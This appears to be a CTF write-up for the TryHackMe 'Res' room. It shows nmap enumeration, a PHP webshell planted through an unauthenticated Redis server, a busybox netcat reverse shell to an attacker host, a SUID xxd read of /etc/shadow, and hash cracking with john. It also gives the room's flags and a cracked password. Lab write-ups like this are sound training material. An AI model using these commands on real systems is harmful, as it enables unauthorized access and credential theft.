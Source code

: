 ```yaml
---
title: "Res"
date: 2025-02-05
image: /assets/img/general/CTFgeneral_image.jpg
description: Writeup of the TryHackMe-CTF Res
categories: [Tryhackme, Easy]
tags: [linux, dbms, redis, privesc]
---
```


## Challenge Description
<center>
<table>
  <tr>
    <td>Plattform</td>
    <td>TryHackMe</td>
  </tr>
  <tr>
    <td>Name</td>
    <td>Res</td>
  </tr>
  <tr>
    <td>Description</td>
    <td>Hack into a vulnerable database server with an in-memory data-structure in this semi-guided challenge!</td>
  </tr>
  <tr>
    <td>Difficulty</td>
    <td>Easy</td>
  </tr>
  <tr>
    <td>OS</td>
    <td>Linux</td>
  </tr>
  <tr>
    <td>Link</td>
    <td><a href="https://tryhackme.com/room/res">https://tryhackme.com/room/res</a></td>
  </tr>
</table>
</center>

This writeup is a possible solution of the CTF-challenge Res.  

## Enumeration
I started the enumeration using `nmap`:
```bash
$ nmap -p- 10.10.174.47             
  Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-13 04:14 EST
  Nmap scan report for 10.10.174.47
  Host is up (0.043s latency).
  Not shown: 65533 closed tcp ports (conn-refused)
  PORT     STATE SERVICE
  80/tcp   open  http
  6379/tcp open  redis

  Nmap done: 1 IP address (1 host up) scanned in 30.83 seconds
```
and enumerated the found services in more depth using nmap's `-A` flag:
```bash
$ nmap -A -p 80,6379 10.10.174.47
  Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-13 04:15 EST
  Nmap scan report for 10.10.174.47
  Host is up (0.037s latency).

  PORT     STATE SERVICE VERSION
  80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
  |_http-title: Apache2 Ubuntu Default Page: It works
  |_http-server-header: Apache/2.4.18 (Ubuntu)
  6379/tcp open  redis   Redis key-value store 6.0.7

  Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
  Nmap done: 1 IP address (1 host up) scanned in 7.42 seconds
```
From here I proceeded the analysis port by port.

## Port 80 Analysis

Since the webserver displayed an `Apache2` default website, I conducted a Gobuster scan, but it didn’t reveal anything useful.

## Port 6379 Analysis

As nmap revealed a `redis` service running on port `6379`, I used the redis cli to connect to the server. Since redis uses a file-based structure, I was able to create a new file. I leveraged this to create a PHP webshell: 

```bash
10.10.3.94:6379> config set dir /var/www/html
	OK
10.10.3.94:6379> config set dbfilename shell.php
	OK
10.10.3.94:6379> set test "<?php system($_GET['cmd']);?>"
	OK
10.10.3.94:6379> save
	OK
```

This allowed me to successfully execute commands on the system:

![Command Execution](/assets/img/tryhackme/Res/thm_res_1.jpg)

Next, I generated a reverse shell using `busybox`:

```bash
http://10.10.3.94/shell.php?cmd=busybox nc [attackerip] 9001 -e sh
```

Netcat received the the reverse shell, after which I stabilized the session. From here I was able to collect the user flag:

```bash
www-data@ubuntu:/var/www/html$ cd /home
www-data@ubuntu:/home$ ls
	vianka
www-data@ubuntu:/home$ cd vianka/
www-data@ubuntu:/home/vianka$ ls
	redis-stable  user.txt
www-data@ubuntu:/home/vianka$ cat user.txt 
	thm{red1s_rce_w1thout_credent1als} 
```

## Privilege Escalation vianka

While performing manual privilege escalation techniques, I discovered an executable with the SUID bit set:

```bash
/usr/bin/xxd
```

I used xxd to read the `shadow` file which gave me the user hash from `vianka`:

```bash
$ LFILE=/etc/shadow
$ xxd "$LFILE" | xxd -r
	vianka:$6$2p.tSTds$qWQfsXwXOAxGJUBuq2RFXqlKiql3jxlwEWZP6CWXm7kIbzR6WzlxHR.UHmi.hc1/TuUOUBo/jWQaQtGSXwvri0:18507:0:99999:7:::
```

On my local machine I created a file, pasted the hash in and ran it with `john` against the `rockyou.txt`:
```bash
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash  
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 512/512 AVX512BW 8x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
beautiful1       (vianka)     
1g 0:00:00:00 DONE (2025-02-13 05:02) 10.00g/s 20480p/s 20480c/s 20480C/s 123456..lovers1
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Using the cracked password, I successfully logged in as `vianka`:
```bash
www-data@ubuntu:/home/vianka$ su vianka 
Password: 
vianka@ubuntu:~$
```

## Privilege Escalation root
I started with `sudo -l` and got the following output:
```bash
vianka@ubuntu:~$ sudo -l
[sudo] password for vianka: 
Matching Defaults entries for vianka on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User vianka may run the following commands on ubuntu:
    (ALL : ALL) ALL
```

From here I just needed to read the flag:
```bash
vianka@ubuntu:~$ sudo cat /root/root.txt
thm{xxd_pr1v_escalat1on}
```

solved! :)
